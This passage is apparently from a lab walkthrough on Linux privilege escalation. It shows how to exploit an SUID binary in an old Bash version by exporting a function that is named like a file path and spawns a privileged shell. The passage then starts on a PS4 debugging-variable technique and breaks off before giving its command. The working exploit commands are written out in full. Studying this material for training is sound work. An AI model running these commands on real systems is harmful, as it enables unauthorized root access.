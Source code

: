 In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048.

**Victim**

```
/bin/bash --version
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

**Victim**

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell.

**Victim**

```
/usr/local/bin/suid-env2
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

## SUID / SGID Executables - Abusing Shell Features (#2)

Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements. Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash.

**Victim**
